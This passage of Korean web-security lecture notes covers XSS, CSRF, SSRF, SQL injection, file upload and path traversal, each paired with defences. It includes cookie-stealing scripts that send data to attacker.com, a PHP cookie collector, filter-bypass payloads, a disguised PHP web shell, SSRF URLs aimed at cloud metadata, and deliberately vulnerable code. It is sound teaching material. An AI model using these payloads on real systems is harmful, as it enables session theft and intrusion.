// ✅ 안전: 허용된 문자만 통과
if (ip.matches("^[0-9\\.]+$")) {
    // 숫자와 점(.)만 허용
    // 처리 로직
} else {
    out.println("허용되지 않은 문자입니다.");
}
```

---

**다음 섹션 예고:**

Section 4에서는 XSS (Cross-Site Scripting)의 기초 개념을 다룬다. 쿠키의 역할과 보안, Stored XSS vs Reflected XSS의 차이, 그리고 우리가 구현한 익명 게시판에서 XSS 공격을 실습할 예정이다.# Section 4: XSS (Cross-Site Scripting) 기초 개념

## 4.1 쿠키 (Cookie) 이해

### 4.1.1 쿠키란?

쿠키는 웹 서버가 사용자의 웹 브라우저에 저장하는 작은 텍스트 파일이다. HTTP는 Stateless 프로토콜이므로, 쿠키를 통해 사용자 상태를 유지한다.

**쿠키의 주요 용도:**
- 로그인 상태 유지 (세션 관리)
- 사용자 선호 설정 저장
- 장바구니 정보 유지
- 사용자 행동 추적 (마케팅)

**쿠키 vs 세션:**

| 특성 | Cookie | Session |
|------|--------|---------|
| 저장 위치 | 클라이언트 (브라우저) | 서버 |
| 보안 | 상대적으로 취약 | 상대적으로 안전 |
| 용량 제한 | 약 4KB | 제한 없음 (서버 용량) |
| 수명 | 설정에 따라 지속 가능 | 브라우저 종료 시 소멸 |
| 속도 | 빠름 (로컬) | 느림 (서버 요청) |

### 4.1.2 쿠키의 보안 위험성

**과거 쿠키 파일 탈취 사례 (1990년대):**

강의에서 언급된 PC방 쿠키 탈취 사례:
- 옛날에는 쿠키가 텍스트 파일로 저장됨
- PC방에서 다른 사용자의 쿠키 파일을 읽어 계정 탈취
- 리니지, 디아블로 등 게임 아이템 도용 사건 발생

**현대적 쿠키 보안:**
- HTTPOnly 플래그: JavaScript로 쿠키 접근 차단
- Secure 플래그: HTTPS에서만 전송
- SameSite 속성: CSRF 공격 방어

### 4.1.3 JavaScript로 쿠키 읽기

```javascript
// 쿠키 읽기
document.cookie

// 쿠키 설정
document.cookie = "username=admin; expires=Fri, 31 Dec 2025 23:59:59 GMT; path=/";

// 특정 쿠키 값 가져오기
function getCookie(name) {
    let cookies = document.cookie.split(';');
    for (let cookie of cookies) {
        let [key, value] = cookie.trim().split('=');
        if (key === name) {
            return value;
        }
    }
    return null;
}

// 사용 예
let username = getCookie('username');
console.log(username);
```

**XSS 공격에서의 쿠키 탈취:**

```javascript
// 공격자가 게시판에 삽입하는 스크립트
<script>
    // 쿠키를 공격자 서버로 전송
    var cookie = document.cookie;
    var img = new Image();
    img.src = "http://attacker.com/steal.php?cookie=" + cookie;
</script>
```

## 4.2 XSS (Cross-Site Scripting) 개요

### 4.2.1 XSS란?

XSS는 공격자가 웹 페이지에 악의적인 스크립트를 삽입하여, 다른 사용자의 브라우저에서 실행되게 하는 공격 기법이다.

**공격 흐름:**



**XSS 공격의 영향:**
- 세션 하이재킹 (쿠키 탈취)
- 사용자 입력 키로깅
- 피싱 페이지 생성
- 악성 코드 유포
- 웹사이트 변조 (Defacement)

### 4.2.2 Stored XSS (저장형 XSS)

**정의:** 악성 스크립트가 서버의 데이터베이스에 저장되어, 해당 데이터를 조회하는 모든 사용자에게 영향을 미치는 XSS

**공격 시나리오 (게시판):**

1. 공격자가 게시판에 다음 내용 작성:
```html
제목: 공지사항
내용: <script>
    var cookie = document.cookie;
    location.href = "http://attacker.com/steal.php?c=" + cookie;
</script>
```

2. 서버는 검증 없이 데이터베이스에 저장

3. 피해자가 해당 게시글 조회

4. 브라우저에서 스크립트 실행 → 쿠키가 공격자 서버로 전송됨

**위험도:** ⭐⭐⭐⭐⭐ (매우 높음)
- 한 번 삽입으로 모든 사용자 피해
- 관리자도 피해 가능성 높음

### 4.2.3 Reflected XSS (반사형 XSS)

**정의:** 악성 스크립트가 URL 파라미터나 폼 입력을 통해 전달되어, 즉시 응답 페이지에 반영되는 XSS

**공격 시나리오 (검색 기능):**

검색 페이지 (search.jsp):
```jsp
<%
    String query = request.getParameter("q");
%>
<h2>검색 결과: <%= query %></h2>
```

공격 URL:
```
http://victim.com/search.jsp?q=<script>alert(document.cookie)</script>
```

피해자가 이 링크를 클릭하면 스크립트 실행

**위험도:** ⭐⭐⭐ (높음)
- 피해자를 속여 악성 링크를 클릭하게 해야 함
- URL 단축 서비스로 URL 숨김 가능

### 4.2.4 DOM-based XSS

**정의:** 서버와 무관하게 클라이언트 측 JavaScript에서 발생하는 XSS

**취약한 코드 예:**

```html
<script>
    // URL에서 name 파라미터 읽기
    var name = location.search.substring(1).split('=')[1];
    // DOM에 직접 삽입 (위험!)
    document.getElementById('welcome').innerHTML = "환영합니다, " + name;
</script>
```

공격 URL:
```
http://victim.com/page.html?name=
```

## 4.3 XSS 공격 페이로드 (Payloads)

### 4.3.1 기본 XSS 페이로드

```html
<!-- 1. 기본 alert -->
<script>alert('XSS')</script>

<!-- 2. img 태그 onerror 이벤트 -->


<!-- 3. body 태그 onload 이벤트 -->
<body onload=alert('XSS')>

<!-- 4. iframe을 이용한 페이지 삽입 -->
<iframe src="javascript:alert('XSS')">

<!-- 5. a 태그 href -->
<a href="javascript:alert('XSS')">클릭</a>

<!-- 6. svg 태그 -->
<svg onload=alert('XSS')>
```

### 4.3.2 쿠키 탈취 페이로드

```javascript
<script>
// 방법 1: Image 객체 사용
var img = new Image();
img.src = "http://attacker.com/steal?c=" + document.cookie;

// 방법 2: fetch API 사용
fetch("http://attacker.com/steal?c=" + document.cookie);

// 방법 3: XMLHttpRequest 사용
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://attacker.com/steal?c=" + document.cookie, true);
xhr.send();

// 방법 4: location.href로 리다이렉트
location.href = "http://attacker.com/steal?c=" + document.cookie;
</script>
```

### 4.3.3 우회 기법

**대소문자 혼합:**
```html
<sCrIpT>alert('XSS')</sCrIpT>
```

**인코딩:**
```html
<!-- HTML 엔티티 인코딩 -->
&lt;script&gt;alert('XSS')&lt;/script&gt;

<!-- URL 인코딩 -->
%3Cscript%3Ealert('XSS')%3C/script%3E

<!-- Unicode 인코딩 -->
\u003cscript\u003ealert('XSS')\u003c/script\u003e
```

**필터 우회:**
```html
<!-- "script" 키워드 필터링 우회 -->
<scr<script>ipt>alert('XSS')</scr</script>ipt>

<!-- 공백 없이 -->


<!-- 이벤트 핸들러 다양화 -->
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus>
<textarea onfocus=alert('XSS') autofocus>
```

## 4.4 익명 게시판에서 XSS 실습

### 4.4.1 Stored XSS 실습

우리가 Section 3에서 만든 익명 게시판을 이용한 XSS 공격 실습:

**실습 1: 기본 alert**

글쓰기 페이지에서 입력:
- 작성자: `해커`
- 제목: `공지사항`
- 내용: `<script>alert('XSS 공격 성공!');</script>`

결과: 게시글 조회 시 alert 창 실행

**실습 2: 쿠키 탈취 (시뮬레이션)**

1. 공격자 서버 준비 (steal.php):
```php
<?php
$cookie = $_GET['c'];
$fp = fopen('stolen_cookies.txt', 'a');
fwrite($fp, date('Y-m-d H:i:s') . " - " . $cookie . "\n");
fclose($fp);
echo "Success";
?>
```

2. 게시판에 삽입:
```html
<script>
var img = new Image();
img.src = "http://공격자IP/steal.php?c=" + document.cookie;
</script>
```

3. 피해자가 게시글 조회하면 쿠키가 `stolen_cookies.txt`에 저장됨

**실습 3: 페이지 변조 (Defacement)**

```html
<script>
document.body.innerHTML = "<h1>이 사이트는 해킹되었습니다!</h1>";
</script>
```

### 4.4.2 read.jsp 취약점 분석

```jsp
<!-- read.jsp의 취약한 부분 -->
<td><%= title %></td>   <!-- 제목 출력 시 인코딩 없음 -->

<div class="post-content">
    <%= content %>      <!-- 내용 출력 시 인코딩 없음 (가장 위험!) -->
</div>
```

**문제점:**
1. 사용자 입력을 그대로 HTML에 출력
2. HTML 특수문자 이스케이프 없음
3. Content-Security-Policy 헤더 미적용

## 4.5 XSS 방어 기법

### 4.5.1 출력 인코딩 (Output Encoding)

**방법 1: JSTL의 c:out 태그 사용**

```jsp
<%@ taglib prefix="c" uri="http://java.sun.com/jsp/jstl/core" %>

<!-- 안전한 출력 -->
<c:out value="${title}" />
<c:out value="${content}" />
```

**방법 2: Apache Commons Text 라이브러리**

```jsp
<%@ page import="org.apache.commons.text.StringEscapeUtils" %>

<td><%= StringEscapeUtils.escapeHtml4(title) %></td>

<div class="post-content">
    <%= StringEscapeUtils.escapeHtml4(content) %>
</div>
```

**방법 3: 수동 인코딩 함수**

```jsp
<%!
public String escapeHtml(String input) {
    if (input == null) return null;
    return input.replace("&", "&amp;")
                .replace("<", "&lt;")
                .replace(">", "&gt;")
                .replace("\"", "&quot;")
                .replace("'", "&#x27;");
}
%>

<td><%= escapeHtml(title) %></td>
```

### 4.5.2 입력 검증 및 필터링

**화이트리스트 방식:**

```java
// HTML 태그 완전 제거
String clean = content.replaceAll("<[^>]*>", "");

// 허용된 태그만 통과
String[] allowedTags = {"b", "i", "u", "br"};
// OWASP Java HTML Sanitizer 라이브러리 사용 권장
```

**블랙리스트 방식 (비권장):**

```java
// 위험한 태그 제거
content = content.replaceAll("<script.*?>.*?</script>", "");
content = content.replaceAll("javascript:", "");
content = content.replaceAll("onerror", "");
```

우회 가능하므로 비권장!

### 4.5.3 Content-Security-Policy (CSP)

HTTP 응답 헤더에 CSP 설정:

```jsp
<%
    // CSP 헤더 설정
    response.setHeader("Content-Security-Policy",
        "default-src 'self'; " +
        "script-src 'self' https://trusted-cdn.com; " +
        "style-src 'self' 'unsafe-inline'; " +
        "img-src 'self' data:; " +
        "connect-src 'self'; " +
        "frame-ancestors 'none';"
    );
%>
```

**CSP 정책 설명:**
- `default-src 'self'`: 기본적으로 자신의 도메인만 허용
- `script-src 'self'`: 스크립트는 자신의 도메인에서만 로드
- `'unsafe-inline'`: 인라인 스타일 허용 (보안상 비권장)

### 4.5.4 HTTPOnly 및 Secure 쿠키

```java
// 세션 쿠키 보안 설정
Cookie sessionCookie = new Cookie("JSESSIONID", sessionId);
sessionCookie.setHttpOnly(true);  // JavaScript 접근 차단
sessionCookie.setSecure(true);    // HTTPS에서만 전송
sessionCookie.setPath("/");
sessionCookie.setMaxAge(3600);    // 1시간
response.addCookie(sessionCookie);
```

---

# Section 5: CSRF/SSRF 및 WebGoat 실습

## 5.1 CSRF (Cross-Site Request Forgery)

### 5.1.1 CSRF란?

CSRF는 사용자가 자신의 의지와 무관하게 공격자가 의도한 행위를 특정 웹사이트에 요청하게 만드는 공격이다.

**공격 시나리오:**



### 5.1.2 CSRF 공격 예제

**취약한 송금 기능:**

```jsp
<!-- transfer.jsp -->
<%
    String to = request.getParameter("to");
    String amount = request.getParameter("amount");

    // ⚠️ 취약점: CSRF 토큰 검증 없음
    if (session.getAttribute("user") != null) {
        // 송금 처리
        executeTransfer(to, amount);
    }
%>
```

**공격자의 악성 페이지:**

```html
<!-- attacker.html -->
<!DOCTYPE html>
<html>
<head><title>재미있는 동영상</title></head>
<body>
    <h1>재미있는 동영상을 보세요!</h1>

    <!-- 숨겨진 이미지로 CSRF 공격 -->
    

    <!-- 또는 자동 제출 폼 -->
    <form id="csrf" action="http://bank.com/transfer.jsp" method="POST">
        <input type="hidden" name="to" value="attacker">
        <input type="hidden" name="amount" value="1000000">
    </form>
    <script>
        document.getElementById('csrf').submit();
    </script>
</body>
</html>
```

사용자가 은행에 로그인한 상태에서 이 페이지를 방문하면, 자신도 모르게 송금 요청이 전송됨!

### 5.1.3 CSRF 방어 기법

**1. CSRF 토큰 사용 (권장):**

```jsp
<!-- form.jsp - 토큰 생성 및 세션 저장 -->
<%
    String csrfToken = UUID.randomUUID().toString();
    session.setAttribute("csrfToken", csrfToken);
%>

<form action="transfer.jsp" method="POST">
    <input type="hidden" name="csrfToken" value="<%= csrfToken %>">
    <input type="text" name="to" placeholder="받는 사람">
    <input type="text" name="amount" placeholder="금액">
    <button type="submit">송금</button>
</form>
```

```jsp
<!-- transfer.jsp - 토큰 검증 -->
<%
    String sessionToken = (String) session.getAttribute("csrfToken");
    String requestToken = request.getParameter("csrfToken");

    if (sessionToken == null || !sessionToken.equals(requestToken)) {
        out.println("CSRF 공격이 감지되었습니다!");
        return;
    }

    // 정상 처리
    String to = request.getParameter("to");
    String amount = request.getParameter("amount");
    executeTransfer(to, amount);
%>
```

**2. SameSite 쿠키 속성:**

```java
Cookie cookie = new Cookie("session", sessionId);
cookie.setAttribute("SameSite", "Strict");  // 또는 "Lax"
response.addCookie(cookie);
```

**3. Referer 헤더 검증:**

```jsp
<%
    String referer = request.getHeader("Referer");
    if (referer == null || !referer.startsWith("http://bank.com")) {
        out.println("잘못된 요청입니다.");
        return;
    }
%>
```

## 5.2 SSRF (Server-Side Request Forgery)

### 5.2.1 SSRF란?

SSRF는 공격자가 서버를 통해 내부 네트워크나 외부 시스템에 요청을 보내도록 유도하는 공격이다.

**공격 시나리오:**

```jsp
<!-- image-proxy.jsp - 취약한 이미지 프록시 -->
<%
    String imageUrl = request.getParameter("url");

    // ⚠️ 취약점: URL 검증 없이 외부 요청
    URL url = new URL(imageUrl);
    HttpURLConnection conn = (HttpURLConnection) url.openConnection();
    InputStream is = conn.getInputStream();

    // 이미지 데이터를 클라이언트에 전송
    byte[] buffer = new byte[1024];
    int bytesRead;
    while ((bytesRead = is.read(buffer)) != -1) {
        response.getOutputStream().write(buffer, 0, bytesRead);
    }
%>
```

**공격 URL:**

```
# 내부 서비스 스캔
http://victim.com/image-proxy.jsp?url=http://192.168.1.1:8080/admin

# 메타데이터 탈취 (AWS)
http://victim.com/image-proxy.jsp?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/

# 로컬 파일 읽기 (file:// 프로토콜)
http://victim.com/image-proxy.jsp?url=file:///etc/passwd
```

### 5.2.2 SSRF 방어 기법

```java
// 화이트리스트 방식
String[] allowedHosts = {"trusted-cdn.com", "images.example.com"};
URL url = new URL(imageUrl);
String host = url.getHost();

boolean allowed = false;
for (String allowedHost : allowedHosts) {
    if (host.equals(allowedHost)) {
        allowed = true;
        break;
    }
}

if (!allowed) {
    response.sendError(403, "허용되지 않은 호스트입니다.");
    return;
}

// 내부 IP 차단
if (host.matches("^(10|172\\.16|192\\.168)\\..*") ||
    host.equals("127.0.0.1") || host.equals("localhost")) {
    response.sendError(403, "내부 IP는 허용되지 않습니다.");
    return;
}
```

## 5.3 WebGoat 실습

### 5.3.1 WebGoat SQL Injection 풀이

**로그인 우회:**
```
Username: admin' --
Password: (아무 값)
```

**UNION 기반 데이터 추출:**
```
Username: admin' UNION SELECT userid, password, NULL, NULL, NULL FROM user_system_data --
Password: (아무 값)
```

### 5.3.2 WebGoat XSS 풀이

**Stored XSS 레슨:**
```html
<script>alert('XSS')</script>
```

**Reflected XSS 레슨:**
```
URL: http://localhost:8080/WebGoat/start.mvc#attack/...?query=<script>alert('XSS')</script>
```

---

# Section 6: 소스 코드 보안 분석 및 파일 업로드 취약점

## 6.1 소스 코드 보안 점검 방법론

### 6.1.1 화이트박스 vs 블랙박스 테스팅

| 구분 | 화이트박스 | 블랙박스 |
|------|-----------|---------|
| 소스 코드 | 접근 가능 | 접근 불가 |
| 분석 방법 | 코드 리뷰, 정적 분석 | 동적 테스팅, 퍼징 |
| 장점 | 근본 원인 파악 용이 | 실제 공격 시나리오 검증 |
| 단점 | 시간 소요 | 취약점 위치 파악 어려움 |

### 6.1.2 위험 함수 검색 자동화

```bash
#!/bin/bash
# vuln_scan.sh - 취약점 스캔 스크립트

echo "=== 위험 함수 검색 시작 ==="

# Runtime.exec() 검색
echo "[1] Runtime.exec() 사용 위치:"
grep -rn "Runtime.getRuntime().exec" --include="*.java" ./

# SQL 쿼리 문자열 결합 검색
echo "[2] SQL 문자열 결합 위치:"
grep -rn "\"SELECT.*+.*\"" --include="*.java" ./

# XSS 위험 출력 검색
echo "[3] 필터링 없는 출력:"
grep -rn "out.println.*getParameter" --include="*.jsp" ./

# 파일 업로드 함수
echo "[4] 파일 업로드 관련:"
grep -rn "FileUpload\|MultipartRequest" --include="*.java" ./

echo "=== 스캔 완료 ==="
```

### 6.1.3 KISA 소프트웨어 개발보안 가이드

**입력 데이터 검증 체크리스트:**
- [ ] SQL 쿼리에 Prepared Statement 사용
- [ ] 명령어 실행 시 화이트리스트 검증
- [ ] XSS 방어를 위한 출력 인코딩
- [ ] 파일 업로드 시 확장자 및 MIME 타입 검증
- [ ] 경로 조작 방어 (../ 필터링)

## 6.2 파일 업로드 취약점

### 6.2.1 위험한 파일 업로드 코드

```jsp
<%
    String uploadPath = "/var/www/uploads/";
    String filename = request.getParameter("filename");

    // ⚠️ 취약점 1: 파일명 검증 없음
    File file = new File(uploadPath + filename);

    // ⚠️ 취약점 2: 확장자 검증 없음
    // ⚠️ 취약점 3: 파일 내용 검증 없음

    // 파일 저장 로직...
%>
```

### 6.2.2 파일 업로드 공격 기법

**1. 확장자 우회:**
```
shell.php         → 차단됨
shell.php.jpg     → 이중 확장자
shell.php%00.jpg  → NULL 바이트 삽입 (과거)
shell.PHP         → 대소문자 우회
shell.php.        → 확장자 뒤 공백
```

**2. MIME 타입 변조:**
```http
Content-Type: image/jpeg    (실제론 PHP 파일)
```

**3. 파일 내용 위장:**
```php
GIF89a<?php system($_GET['cmd']); ?>
```

### 6.2.3 안전한 파일 업로드 구현

```java
// 1. 확장자 화이트리스트
String[] allowedExtensions = {".jpg", ".png", ".gif"};
String extension = filename.substring(filename.lastIndexOf(".")).toLowerCase();

boolean isAllowed = false;
for (String ext : allowedExtensions) {
    if (extension.equals(ext)) {
        isAllowed = true;
        break;
    }
}

if (!isAllowed) {
    throw new SecurityException("허용되지 않은 파일 형식입니다.");
}

// 2. 파일명 재생성 (원본 파일명 사용 금지)
String newFilename = UUID.randomUUID().toString() + extension;

// 3. 업로드 경로를 웹 루트 외부로 설정
String uploadPath = "/var/uploads/";  // DocumentRoot 밖

// 4. 파일 내용 검증 (매직 바이트)
byte[] fileHeader = new byte[4];
inputStream.read(fileHeader);

// JPEG: FF D8 FF E0
// PNG:  89 50 4E 47
// GIF:  47 49 46 38

// 5. 실행 권한 제거
File uploadedFile = new File(uploadPath + newFilename);
uploadedFile.setExecutable(false);
uploadedFile.setWritable(false, false);
uploadedFile.setReadable(true);
```

## 6.3 경로 조작 (Path Traversal)

### 6.3.1 취약한 다운로드 기능

```jsp
<!-- download.jsp -->
<%
    String filename = request.getParameter("file");

    // ⚠️ 취약점: 경로 검증 없음
    File file = new File("/var/data/" + filename);

    FileInputStream fis = new FileInputStream(file);
    // 파일 다운로드 처리...
%>
```

**공격:**
```
file=../../etc/passwd
file=../../../../../../etc/passwd
file=....//....//etc/passwd    (필터 우회)
```

### 6.3.2 방어 기법

```java
String filename = request.getParameter("file");

// 1. ../ 제거
filename = filename.replaceAll("\\.\\./", "");

// 2. 절대경로 사용 금지
if (filename.startsWith("/")) {
    throw new SecurityException("절대 경로는 허용되지 않습니다.");
}

// 3. Canonical Path 검증
File file = new File(basePath, filename);
String canonicalPath = file.getCanonicalPath();

if (!canonicalPath.startsWith(basePath)) {
    throw new SecurityException("허용되지 않은 경로입니다.");
}
```

---

# Section 7: 종합 정리 및 체크리스트

## 7.1 핵심 내용 요약

### 7.1.1 취약점별 방어 대책

| 취약점 | 공격 기법 | 방어 기법 |
|--------|---------|-----------|
| **SQL Injection** | UNION, Blind SQLi | Prepared Statement |
| **Command Injection** | ;, |, &&, $() | 화이트리스트 검증, 배열 실행 |
| **XSS** | `<script>`, img onerror | 출력 인코딩, CSP |
| **CSRF** | 자동 폼 제출 | CSRF 토큰, SameSite |
| **SSRF** | 내부 네트워크 접근 | URL 화이트리스트 |
| **파일 업로드** | 웹셸 업로드 | 확장자/내용 검증 |
| **Path Traversal** | ../ 경로 조작 | Canonical Path 검증 |

### 7.1.2 보안 개발 원칙

1. **입력은 항상 검증한다** (Never Trust User Input)
2. **화이트리스트 방식을 사용한다** (블랙리스트는 우회 가능)
3. **최소 권한 원칙을 적용한다** (Principle of Least Privilege)
4. **방어는 다층적으로 구성한다** (Defense in Depth)
5. **보안은 설계 단계부터 고려한다** (Security by Design)

## 7.2 실무 체크리스트

### 7.2.1 코드 리뷰 체크리스트

**데이터베이스 관련:**
- [ ] Prepared Statement 또는 ORM 사용
- [ ] 동적 쿼리 생성 시 입력값 검증
- [ ] 데이터베이스 계정 권한 최소화 (DML만 허용)
- [ ] 에러 메시지에 SQL 쿼리 노출 금지

**시스템 명령 실행:**
- [ ] Runtime.exec(), system() 사용 최소화
- [ ] 사용 시 화이트리스트 검증 필수
- [ ] 배열 방식으로 명령어 전달
- [ ] 절대 경로 사용 (/bin/ping)

**XSS 방어:**
- [ ] 모든 사용자 입력 출력 시 인코딩
- [ ] JSTL c:out 태그 또는 escapeHtml 함수 사용
- [ ] CSP 헤더 설정
- [ ] HTTPOnly, Secure 쿠키 플래그 설정

**CSRF 방어:**
- [ ] 모든 상태 변경 요청에 CSRF 토큰 사용
- [ ] POST 메서드 사용 (GET으로 상태 변경 금지)
- [ ] SameSite 쿠키 속성 설정

**파일 처리:**
- [ ] 업로드 파일 확장자 화이트리스트 검증
- [ ] 파일 내용 (매직 바이트) 검증
- [ ] 파일명 재생성 (UUID 사용)
- [ ] 업로드 경로를 웹 루트 외부로 설정
- [ ] 다운로드 시 Canonical Path 검증

### 7.2.2 배포 전 보안 점검

**서버 설정:**
- [ ] 불필요한 서비스 비활성화
- [ ] 최신 보안 패치 적용
- [ ] 방화벽 설정 (필요한 포트만 오픈)
- [ ] SSH 접근 제한 (키 기반 인증)

**애플리케이션:**
- [ ] 개발 모드 비활성화 (DEBUG=false)
- [ ] 상세 에러 메시지 비활성화
- [ ] 로그에 민감 정보 기록 금지
- [ ] HTTPS 적용 (SSL/TLS 인증서)

**데이터베이스:**
- [ ] 기본 계정 삭제 (root, admin)
- [ ] 강력한 패스워드 설정
- [ ] 원격 접근 제한
- [ ] 정기적 백업

## 7.3 학습 마무리

### 7.3.1 추가 학습 자료

**온라인 실습 플랫폼:**
- OWASP WebGoat: https://owasp.org/www-project-webgoat/
- HackTheBox: https://www.hackthebox.com/
- PortSwigger Web Security Academy: https://portswigger.net/web-security

**참고 문서:**
- OWASP Top 10: https://owasp.org/www-project-top-ten/
- KISA 개발보안 가이드: https://www.kisa.or.kr/
- CWE (Common Weakness Enumeration): https://cwe.mitre.org/

### 7.3.2 강의 핵심 요약

**오늘 배운 내용:**
1. SQL Injection: UNION 기반 공격 및 Prepared Statement 방어
2. Command Injection: Runtime.exec() 위험성 및 화이트리스트 검증
3. XSS: Stored/Reflected 타입 및 출력 인코딩 방어
4. CSRF/SSRF: 토큰 기반 방어 및 URL 검증
5. 익명 게시판 구현: CRUD 기능 및 보안 취약점 실습
6. 소스 코드 분석: grep을 통한 취약점 탐지
7. 파일 업로드/경로 조작: 확장자 검증 및 경로 정규화

**마지막 당부:**
- 보안은 한 번의 조치가 아닌 지속적인 과정
- 설마 하는 마음이 가장 위험
- 프레임워크를 맹신하지 말고 직접 검증
- 보안 업데이트를 주기적으로 확인

---

**강의 종료**

수고하셨습니다! 오늘 배운 내용을 바탕으로 안전한 웹 애플리케이션을 개발하시기 바랍니다.